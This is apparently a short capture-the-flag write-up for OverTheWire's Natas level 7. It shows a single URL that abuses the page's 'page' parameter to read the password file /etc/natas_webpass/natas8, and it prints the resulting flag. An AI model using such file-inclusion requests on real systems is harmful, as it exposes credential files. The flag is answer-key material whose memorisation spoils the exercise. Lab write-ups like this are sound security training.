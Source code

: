 # Natas Level 7 Solution

here we can see it prints the content of the file that the param `page` gets. so, let's give him the path to the password which is `/etc/natas_webpass/natas8`
```
http://natas7.natas.labs.overthewire.org/index.php?page=/etc/natas_webpass/natas8
```

**Flag:** ***`xcoXLmzMkoIP9D7hlgPlh9XD7OgLAe5Q`*** 
